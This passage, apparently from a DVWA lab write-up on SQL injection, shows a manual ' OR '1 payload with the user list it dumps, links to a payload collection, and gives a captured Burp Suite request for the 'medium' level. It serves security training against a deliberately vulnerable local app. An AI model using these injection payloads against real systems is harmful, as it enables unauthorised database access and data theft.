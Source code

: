 Despite having managed to exploit the vulnerability with this automatic tool, it is worth mentioning that it can be done manually, for this there are lists of queries for each type of database.

\*Here we take advantage of the fact that we already know the database from the previous steps, but if not, we should try with the different types of databases until we get it right.

Concretely we can find the necessary queries here: https://swisskyrepo.github.io/PayloadsAllTheThings/SQL%20Injection/MySQL%20Injection/

For example to obtain the list of users we use the query `' OR '1`.

```txt
ID: ' OR '1  
First name: admin  
Surname: admin

ID: ' OR '1  
First name: Gordon  
Surname: Brown

ID: ' OR '1  
First name: Hack  
Surname: Me

ID: ' OR '1  
First name: Pablo  
Surname: Picasso

ID: ' OR '1  
First name: Bob  
Surname: Smith
```

#### Normal

As always we check if the above procedure works and as most of the time it doesn't. We decide to save the request so as previously done we open Burpsuite and start Burp Suite Toogler addon.
We decide to save the request so as previously done we open Burpsuite and start the Burp Suite Toogler addon.

We generate a basic query request and send it. Now we have in the intercept tab inside burpsuite the query so we export this as `.txt`.

The content is as follows:

```txt
POST /vulnerabilities/sqli/ HTTP/1.1
Host: 172.17.0.2
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://172.17.0.2/vulnerabilities/sqli/
Content-Type: application/x-www-form-urlencoded
Content-Length: 18
Origin: http://172.17.0.2
DNT: 1
Connection: close
Cookie: PHPSESSID=albq3dhv4vof90l6l89q8qa1s0; security=medium
Upgrade-Insecure-Requests: 1

id=1&Submit=Submit
```
